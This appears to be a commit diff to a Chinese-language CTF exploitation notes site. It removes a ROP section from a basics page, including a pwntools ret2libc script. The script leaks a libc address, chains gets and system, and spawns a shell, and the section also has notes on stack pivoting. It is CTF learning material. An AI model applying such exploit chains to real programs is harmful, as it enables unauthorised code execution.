

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/ctf/pwn/basic.md, in a window 1280 px wide and 1400 px high, scrolled down 4543 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 5793 px from its top, so only the background shows below that.

````diff
--- a/docs/ctf/pwn/basic.md
+++ b/docs/ctf/pwn/basic.md
@@ -137,50 +137,7 @@ linux 下
 - https://github.com/Neetx/Shellcode-Extractor
 从elf提取shellcode
 
-## ROP
- 1. ROPgadget 得到代码片断
- 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
- 3. 动态链接找不到 int 0x80,需要构造rop
-```py
-from pwn import *
-r=process('ret2lib')
 
-puts_got_plt = 0x804a01c
-puts_offset =0x00069930
-
-r.recvuntil(':')
-r.sendline(str(puts_got_plt))
-r.recvuntil(': ')
-libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address
-print hex(libc_base)
-gets_off=0x000690d0             # objdump -D libc |grep gets@
-system_off= 0x0003e8f0          # objdump -D libc |grep system@
-gets = libc_base+gets_off
-system = libc_base+system_off
-buf=0x804b000 -30               # cat /proc/702/maps to get writable address
-rop=[
-        gets,
-        system,
-        buf,
-        buf
-        ]
-r.recvuntil(":")
-r.sendline('a'*60+flat(rop))
-r.sendline("/bin/sh\x00")
-r.interactive()
-
-```
-
-### 寄存器赋值
-构造栈结构
-```
-  *(pop eax ;ret)
-  3
-```
-将eax赋值为3
-### 栈转移
-寻找 leave;ret;指令，然后更改ebp的值即可
-leave= mov esp,ebp,pop ebp;
 
 ## return to Dynamic resolver
 return to lib without information leakage
````
Also changed, not shown: docs/ctf/pwn/ROP.md (+24 -0 lines), docs/ctf/wp/L3sec/pwn1.md (added, +135 -0 lines), docs/ctf/wp/L3sec/2019-02-11-15-39-38.png (renamed from docs/ctf/wp/L3sec招新/2019-02-11-15-39-38.png), docs/ctf/wp/L3sec/2019-02-12-22-52-29.png (renamed from docs/ctf/wp/L3sec招新/2019-02-12-22-52-29.png), docs/ctf/wp/L3sec/2019-02-12-22-54-03.png (renamed from docs/ctf/wp/L3sec招新/2019-02-12-22-54-03.png), docs/ctf/wp/L3sec/2019-02-12-22-54-52.png (renamed from docs/ctf/wp/L3sec招新/2019-02-12-22-54-52.png), docs/ctf/wp/L3sec/2019-02-12-22-57-56.png (renamed from docs/ctf/wp/L3sec招新/2019-02-12-22-57-56.png), docs/ctf/wp/L3sec/2019-02-12-23-01-06.png (renamed from docs/ctf/wp/L3sec招新/2019-02-12-23-01-06.png), docs/ctf/wp/L3sec/2019-02-12-23-02-32.png (renamed from docs/ctf/wp/L3sec招新/2019-02-12-23-02-32.png), docs/ctf/wp/L3sec/2019-02-13-01-28-31.png (renamed from docs/ctf/wp/L3sec招新/2019-02-13-01-28-31.png), docs/ctf/wp/L3sec/2019-02-24-04-50-03.png (renamed from docs/ctf/wp/L3sec招新/2019-02-24-04-50-03.png), docs/ctf/wp/L3sec/招新.md (renamed from docs/ctf/wp/L3sec招新/wp.md).
